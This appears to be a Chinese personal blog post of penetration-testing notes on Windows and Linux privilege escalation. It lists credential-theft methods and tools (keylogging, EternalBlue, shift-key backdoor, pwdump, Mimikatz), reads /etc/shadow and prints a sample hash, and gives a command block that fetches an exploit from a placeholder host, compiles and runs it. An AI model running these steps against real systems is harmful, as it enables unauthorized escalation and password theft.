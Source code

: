 ```yaml
---
title: 提权
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pp1ove
authorDesc: 一个好奇的人
categories: 渗透
comments: flase
date: 2021-02-10 19:45:07
tags:提权
photos:\img\article\18.png
---
```


# 提权前提

- 拥有操作系统普通与用户
- 拥有网站webshell
- 存在提权的漏洞

https://security.tencent.com/index.php/blog/msg/174



# windows

提权总结:https://xz.aliyun.com/t/157

## 利用工具进行提权

Privesc

Windows-Exploit-Suggester-master

## 密码获取常用手段

1. 通过中间人劫持:网络窃听
2. 通过用户主机窃听:键盘记录
3. 通过简单猜解:弱口令
4. 通过系统漏洞:永恒之蓝
5. 用户自己泄露:git、配置文件等泄露方式
6. 通过系统后门：shift后门（修改shift的exe文件）

## windows密码原理

用户名:RID:LM-HASH值:NT-HASH值

## 在线查询得到密码明文:

https://www.objectif-securite.ch/en/ophcrack.php

www.cmd5.com

## Windous密码hash导出

都是使用不同的工具导出hash

- 导出导入SAM,system文件
- gethashs导出
- Pwdump导出
- Wce导出

## Windows明文密码

- Wce明文密码获取
- Mimikate明文密码获取
- Getpass明文密码获取

# Linux

https://xz.aliyun.com/t/7924

## Linux提权方法

```bash
linux提权基础命令:
uname -an
id
pwd
cat /etc/issue  查看版本号(可能会被修改)
ls -al
uname -a    打印所有可用的系统信息
uname -r    内核版本
uname -n    系统主机名。
uname -m    查看系统内核架构（64位/32位）
hostname    系统主机名
cat /proc/version    内核信息
cat /etc/*-release   分发信息
cat /etc/issue       分发信息
cat /proc/cpuinfo    CPU信息
cat /etc/lsb-release # Debian 
cat /etc/redhat-release # Redhat
ls /boot | grep vmlinuz-
套路:
weget http://exp/exp.c
gcc -o exp exp.c
chmod +x exp
./exp


```

### 反弹shell

### 利用suid进行提权

https://www.anquanke.com/post/id/86979

https://www.freebuf.com/articles/system/149118.html

## Linux密码的原理

Linxu中涉及系统登陆密码的重要文件有两个

- /etc/passwd  #用户信息     root: x:0:0:/root:/bin/bash
- /etc/shadow #密码信息

## Linux加密算法

- $1: md5
- $2: Blowfish
- $5:Sha-256
- $6:Sha-512
- 其他格式均为标准DES加密算法

如:root:$6$5yYs7mbQJNB2Toub$cIPh2IT0M28VlHcRCaTYKJIYnd60H84QPPdga5RoqTElNAMXDXw4XPbdTTtqvSZF0t98Z9PnL2F0EXTpRgWwS0:18647:0:99999:7:::

## 破解Linux密码

### john破解Linux密码

利用join工具进行破解

kali自带john工具

  https://www.jianshu.com/p/bed96891dc3e

https://www.jianshu.com/p/bed96891dc3e

## 